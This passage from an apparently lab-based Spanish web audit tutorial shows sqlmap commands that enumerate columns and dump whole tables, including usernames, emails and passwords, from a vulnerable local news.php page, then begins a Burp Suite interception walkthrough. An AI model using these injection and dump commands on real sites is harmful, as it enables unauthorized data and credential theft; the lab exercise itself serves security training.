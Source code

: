 ### Paso 5: Enumeración de Columnas
```bash
# Tabla users
python sqlmap.py -u "http://localhost/news.php?id=1" -D auditoria_web -T users --columns --batch

# Tabla blog
python sqlmap.py -u "http://localhost/news.php?id=1" -D auditoria_web -T blog --columns --batch
```

**Resultado esperado:**
```
Database: auditoria_web
Table: users
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| username | varchar(50) |
| email    | varchar(100)|
| password | varchar(255)|
+----------+-------------+

Database: auditoria_web  
Table: blog
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| title    | varchar(200)|
| body     | text        |
| datetime | datetime    |
+----------+-------------+
```

### Paso 6: Extracción Completa de Datos
```bash
# Extraer todos los datos de usuarios
python sqlmap.py -u "http://localhost/news.php?id=1" -D auditoria_web -T users --dump --batch

# Extraer todos los datos del blog
python sqlmap.py -u "http://localhost/news.php?id=1" -D auditoria_web -T blog --dump --batch
```

---

## 🖥️ Auditoría con Burp Suite

### Paso 1: Configuración y Captura Inicial
1. **Configurar Proxy:** 127.0.0.1:8080 en navegador
2. **Interceptar Request:** Navegar a `http://localhost/news.php?id=1`
3. **Analizar Request capturado:**
```http
GET /news.php?id=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```
